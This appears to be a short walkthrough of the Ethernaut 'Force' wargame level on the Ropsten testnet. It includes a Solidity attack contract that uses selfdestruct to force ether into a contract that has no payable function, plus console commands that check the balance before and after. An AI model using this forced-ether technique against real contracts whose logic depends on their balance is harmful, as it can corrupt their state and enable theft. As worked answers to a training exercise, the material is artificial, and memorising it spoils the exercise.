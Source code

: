 force 

// contract has no logic built in it; empty contract

// this does NOT mean that contract cannot have a balance > 0!

// though contract is not explicitly payable, contract CAN still receive funds via the recipient of a selfdestruct being called on another function


*contracts attacking contracts*

```javascript
instance // => returns contract address (Ropsten)
await getBalance(instance) // => returns 0 indicating the contract holds no funds at the moment
```

---

to Remix!

---

create new contract! (CAUTION: disposable code ahead..)

```solidity
pragma solidity ^0.4.15;

contract ForceEth {
	// create state variable for readability
	address private forceContract; 

	// constructor
	// insert contract address as constructor argument (returned from calling 'instance' in JS console above)
	function ForceEth(address _addr) public payable {
		forceContract = _addr;
	}

	function kill() public {
		// pass in forceContract state variable as argument for suicide
		selfdestruct(forceContract); // selfdestruct => alias for suicide
	}

	function() payable { }
}
```

- deploy using injectedWeb3 enviro - Ropsten - (passing in some eth amount to value, and address of ethernaut 'Force' contract instance)
- once contract successfully deployed, kill it!

---

back to the console!

---

```javascript
await getBalance(instance) // => returns whatever amount of eth you passed in when deploying the ForceEth contract
```
